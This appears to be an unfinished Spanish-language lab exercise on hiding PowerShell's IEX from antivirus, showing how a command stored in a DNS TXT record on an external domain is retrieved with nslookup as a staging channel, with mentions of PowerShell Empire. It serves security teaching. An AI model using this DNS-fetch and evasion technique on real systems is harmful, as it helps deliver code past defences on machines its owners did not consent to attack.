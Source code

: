 # Ocultar IEX para evadir al antivirus
 

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Win 11***.

TODO. introducción

## Ejercicio 1: Hacer prueba de concepto con registro TXT.

Debemos sacar del dominio a la máquina ***Win 11***. Para ello, vamos a **Settings***, ***Accounts***, ***Access work or school*** y desconectamos al equipo del dominio.

Reiniciamos y volvemos aquí.

Debemos asegurar que el servidor DNS está correctamente configurado, tal y como aclara la imagen.

![8.8.8.8 Server](../img/lab-50-C/202209142058.png)

Para saltar la detección del antivirus, la instrucción ***IEX*** no debe aparecer en el payload. Para ello hacemos una prueba de concepto por medio de un registro ***TXT*** del ***DNS***.

La siguiente imagen muestra un registro TXT, llamado ***prueba***, que contiene un texto genérico en el servidor que lleva la zona ***antsala.xyz***.

![prueba TXT](../img/lab-50-C/202209142115.png)

Abrimos una terminal de ***Powershell***, y en ella escribimos.
```
nslookup -q=txt pruebadeconcepto.antsala.xyz
```

y obtenemos lo siguiente.
Nota: Solo nos interesa la última línea de la salida del comando.

![última línea](../img/lab-50-C/202209142117.png)

Estudia la siguiente imagen. Usando ***[]*** podemos elegir la línea que nos interesa de la salida, que es la última.
Nota: ***Non-authoritative answer*** for forma parte de la salida.

![Selección línea](../img/lab-50-C/202209142122.png)

Ahora nos fijamos en el siguiente registro TXT.

![Seleccionar varias líneas](../img/lab-50-C/202209142124.png)

Observa qué ocurre cuando hacemos la consulta.
```
(nslookup -q=txt ejecutaesto.antsala.xyz)[-1]
```

En la salida podemos observar que hemos "extraído" un ***comando***.

![extracción comando](../img/lab-50-C/202209142124.png)










Actualizar powershell empire en Kali.